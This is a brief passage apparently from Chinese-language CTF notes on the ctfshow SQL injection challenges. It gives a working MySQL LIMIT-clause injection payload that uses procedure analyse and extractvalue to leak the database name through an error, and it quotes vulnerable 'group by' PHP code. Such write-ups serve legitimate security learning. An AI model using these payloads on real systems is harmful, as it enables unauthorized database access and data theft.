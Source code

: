 [[转载]Mysql下Limit注入方法 | 离别歌](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)

![image-20250214215951430](../assets/image-20250214215951430.png)

payload:

```
?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)
```

![image-20250214220519994](../assets/image-20250214220519994.png)

#### group注入

#### web222

```
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
```

![image-20250215150334370](../assets/image-20250215150334370.png)
